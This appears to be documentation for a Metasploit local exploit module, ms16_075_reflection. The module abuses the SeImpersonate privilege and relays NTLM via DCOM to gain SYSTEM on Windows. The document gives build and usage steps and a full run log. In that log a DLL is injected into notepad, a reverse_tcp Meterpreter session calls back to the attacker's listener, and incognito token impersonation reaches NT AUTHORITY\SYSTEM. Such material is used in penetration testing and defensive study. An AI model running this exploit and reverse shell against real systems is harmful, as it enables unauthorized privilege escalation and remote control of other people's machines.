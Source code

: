 ## Introduction
  This module will abuse the SeImperonsate privilege commonly found in 
services due to the requirement to impersonate a client upon 
authentication. As such it is possible to impersonate the SYSTEM account 
and relay its NTLM hash to RPC via DCOM. The DLL will perform a MiTM 
attack at which intercepts the hash and relay responses from RPC to be 
able to establish a handle to a new SYSTEM token. Some caveats : Set 
your target option to match the architecture of your Meterpreter 
session, else it will inject the wrong architecture DLL into the process 
of a seperate architecture. Additionally, after you have established a 
session, you must use incognito to imperonsate the SYSTEM Token.

## Build Instructions
This builds using visual studio 2017 and tools v141.  Attempts
to compile with previous verstions of build tools will succeed but
the resulting binary fails to exploit the vulnerability.

## Usage
  You'll first need to obtain a session on the target system.
  Next, once the module is loaded, one simply needs to set the 
```payload``` and ```session``` options, in addition to architecture.
  
  Your user at which you are trying to exploit must have `SeImpersonate` 
privileges.
  
  The module has a hardcoded timeout of 20 seconds, as the attack may 
not work immediately and take a few seconds to start. Also, check to 
make sure port 6666 is inherently not in use else the exploit will not 
run properly
  
## Scenarios
```
  Name Current Setting Required Description
   ---- --------------- -------- -----------
   SESSION 48 yes The session to run this module on. Payload options 
(windows/x64/meterpreter/reverse_tcp):
   Name Current Setting Required Description
   ---- --------------- -------- -----------
   EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, 
process, none)
   LHOST ens3 yes The listen address (an interface may be specified)
   LPORT 3312 yes The listen port Exploit target:
   Id Name
   -- ----
   1 Windows x64 msf exploit(windows/local/ms16_075_reflection) > run 
[*] Started reverse TCP handler on -snip-:3312
[*] Launching notepad to host the exploit... [+] Process 3564 launched.
[*] Reflectively injecting the exploit DLL into 3564...
[*] Injecting exploit into 3564...
[*] Exploit injected. Injecting payload into 3564...
[*] Payload injected. Executing exploit..
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to -snip-
[*] Meterpreter session 49 opened (-snip-:3312 -> -snip-:55306) at 2018-08-03 01:54:18 -0400
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > impersonate_token 
'NT AUTHORITY\SYSTEM'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getsystem -t 1 ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > 
```

